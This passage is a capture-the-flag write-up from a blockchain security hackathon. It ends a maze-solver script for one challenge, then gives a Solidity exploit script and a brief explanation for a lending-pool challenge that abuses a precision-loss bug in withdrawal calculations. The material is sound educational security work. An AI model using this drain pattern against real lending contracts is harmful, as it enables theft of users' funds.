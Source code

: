            # Format as hex bytes
            hex_solution = '0x' + ''.join(f'{b:02x}' for b in hex_bytes)
            print(f"Compact hex representation: {hex_solution}")
        else:
            print("No solution found. Maze is unsolvable.")
    ```
    
    convert huff code to python after analysis, get a valid seed that generates solvable maze with several attempts and solve maze with dfs
    

## Knuckle’s Lending Pool

[challenge link](https://github.com/cantinasec/vienna_hackathon_2025/tree/main/KNUCKLE'S_LENDING_POOL\)
---

Transaction hash:  0xff54c7887ecc944044798d87c0721b093f1062f63dee5c9e98af0820148ef8ef
0x0a4229073cffec2cf974f62af619478de5925056edeb8385e5510098d4ac3206
0xcd112332f54f7f14478966e64d7a4b2ffde7e24cfabf511619a96944bbff8f07

- exploit code
    
    ```solidity
    contract Hard1Script is Script {
    
        function run() public {
            vm.startBroadcast();
            
            ChallengeHard1 chall = ChallengeHard1(payable(0x68283749b8933E57fdBCA021fcCa03bcfB539199));
    
            chall.ingressLiquidity{value: 1 ether + 1000}();
            chall.egressLiquidity(1 ether + 1000);
            chall.verifySystemCompletion();
    
            vm.stopBroadcast();
        }
    }
    ```
    
- writeup
    
    There is a precision loss in `vaultLib.calcAssetForWithdrawals()`. So, the amount required to burn will be much less than the metric’s deducted amount. In this case, after burning, the metric becomes zero, while the user still holds some tokens.